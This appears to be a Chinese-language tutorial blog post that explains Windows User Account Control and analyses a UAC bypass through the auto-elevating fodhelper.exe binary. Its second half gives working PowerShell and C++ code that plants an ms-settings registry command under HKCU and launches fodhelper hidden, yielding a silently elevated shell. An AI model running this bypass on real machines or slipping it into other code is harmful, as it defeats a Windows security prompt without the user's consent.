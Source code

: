 +++
author = "Hugo Authors"
title = "Placeholder Text"
date = "2019-03-09"
# description = "Lorem Ipsum Dolor Si Amet"
tags = [
    "markdown",
    "text",
]
+++

# 利用Fodhelper白名单程序bypassUAC

## what is UAC？
UAC 是微软在 Windows Vista 以后版本引入的一种安全机制，
UAC全称是User Account Control直译为“用户帐户控制”，是微软为提高系统安全而在Windows Vista中引入的新技术，VISTA以后的微软系统中都带有这个功能，如WIN7和WIN8系统中都有，UAC需要用户在执行一些可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前，提供权限或管理员‌密码。

## UAC的作用
通过 UAC，应用程序和任务可始终在非管理员帐户的安全上下文中运行，除非管理员特别授予管理员级别的系统访问权限。UAC 可以阻止未经授权的应用程序自动进行安装，并防止无意中更改系统设置。
流程如下:
![](/uacflowchart.png)

## UAC的实现
Windows操作系统中所有资源都有一个ACL(Access Control List)标识了拥有什么权限的用户/进程能够访问这个资源。
在开启了 UAC 之后，如果用户以管理员权限登陆，会生成两份访问令牌，一份是完整的管理员访问令牌（Full Access Token），一份是标准用户令牌(Access Token)。一般情况下会以标准用户权限启动 Explorer.exe 进程。在需要使用高完整性令牌时，会提示询问用户，如果用户同意，则继续进行操作。

## what is BypassUAC?
在触发UAC时，操作系统会创建一个名为consent.exe的进程，该进程通过白名单和用户选择来确定是否提升权限。
请求进程将要提升权限的进程的commandline和程序路径通过LPC(Local Procedure Call)接口传递给appinfo的RAiluanchAdminProcess函数，该函数首先会验证传入程序是否在白名单内同时判断是否弹出UAC窗口，这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程。
通常通过UAC的权限提升需要由用户确认，在不被用户发现的情况下静默的将程序的普通权限提升为管理员权限，从而使程序可以实现一些需要权限的操作被称之为BypassUac。

## 基于白名单的BypassUac
有一些系统程序是会直接获取管理员权限同时不出发UAC弹窗的，这类程序被称为白名单程序。
这些程序拥有一个manifest文件该文件本质上是一个XML文件用于标识该程序的配置属性。
拥有autoElevate属性程序和微软签名和白名单会被操作系统认为是可信的。会在启动时就静默提升权限，


## BypassUac实例分析-fodhelper.exe
实验环境:![](/windows-version.png)
检查程序属性:
使用微软官方提供的sigcheck工具可以检查程序的manifest标识的配置属性，可用于检查是否拥有autoElevate属性。
![](/autoElevate.png)
使用微软提供的procmon工具可以监控程序进行的注册表和文件操作。
使用过滤规则:
![](/filter.png)
使用procmon监控fodhelper的行为数据发现，在启动过程中会查询注册表项HKCU:\Software\Classes\ms-settings\Shell\Open\command，发现路径不存在后继续查询，通常已shell\open\command命名的键值对存储的是可执行文件的路径，如果我们能写入这个键值对，那么在程序启动过程中我们会得到一个已高权限执行的可执行文件，由于该键值对属于HKCU，所以即使是普通用户也能编辑该键值对，那么现在我们就可以已高权限静默执行任意指定文件。
![](/processs-mon.png)

编码实现:
powershell版本
```
[String]$program = "cmd /c start powershell.exe"
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
Start-Sleep 3
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
c++版本:
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")

int main(int argc, char* argv[]) {
	PROCESS_INFORMATION pi = { 0 };
	STARTUPINFOA si = { 0 };
	HKEY hKey;

	si.cb = sizeof(STARTUPINFO);
	si.wShowWindow = SW_HIDE;
	RegCreateKeyA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings\\Shell\\open\\command", &hKey);
	RegSetValueExA(hKey, "", 0, REG_SZ, (LPBYTE)"cmd.exe", strlen("cmd.exe"));
	RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ, (LPBYTE)"", sizeof(""));
	CreateProcessA("C:\\Windows\\System32\\cmd.exe",(LPSTR)"/c C:\\Windows\\System32\\fodhelper.exe", NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);
	Sleep(5000);
	RegDeleteTreeA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings");

	return 0;
}

```
实现效果:
![](/powershell.png)

## LINKS
https://docs.microsoft.com/en-us/cpp/security/how-user-account-control-uac-affects-your-application?redirectedfrom=MSDN&view=vs-2019
https://www.cnblogs.com/Chesky/p/UAC_Bypass.html
https://payloads.online/archivers/2018-12-22/1
https://payloads.online/archivers/2020-03-02/2
《windows黑客编程技术详解》
《windows核心编程第五版》